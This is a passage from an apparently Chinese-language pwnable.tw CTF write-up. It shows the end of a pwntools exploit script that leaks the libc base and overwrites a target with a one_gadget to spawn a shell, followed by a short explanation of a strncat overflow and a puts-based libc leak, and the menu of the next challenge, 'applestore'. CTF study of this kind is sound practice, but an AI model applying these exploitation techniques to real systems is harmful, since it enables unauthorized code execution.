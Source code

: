 ```python
libc_addr = puts - elf_libc.symbols['puts']

Create('A'*0x2C)
Powerup('A'*0x4)

#one_gadget
one_gadget = libc_addr + 0x5f065
Powerup("\xff"*7+p32(one_gadget))

#system('/bin/sh')
system_addr = libc_addr + elf_libc.symbols['system']
binsh_addr = libc_addr + 0X158e8b
#Powerup("\xff"*7+p32(system_addr)+p32(0xffffffff)+p32(binsh_addr))

Beat()

io.interactive()
```

总结：

strncat(dest,src,n)的功能是将src的前n个字节的字符追加到dest字符串后面,然后再加上\x00结尾，不加以检查就可能会造成溢出。

栈溢出泄露libc方式：覆盖返回地址为puts的plt地址，参数选择为puts的got地址，函数返回时泄露，然后再根据偏移计算libc基址

# 0x08 applestore

![image-20220421185240684](pwnabletw.assets/image-20220421185240684.png)

```
$ ./applestore
=== Menu ===
1: Apple Store
2: Add into your shopping cart
3: Remove from your shopping cart
4: List your shopping cart
5: Checkout
6: Exit
> 1
=== Device List ===
1: iPhone 6 - $199
2: iPhone 6 Plus - $299
3: iPad Air 2 - $499
4: iPad Mini 3 - $399
5: iPod Touch - $199
> 2
```
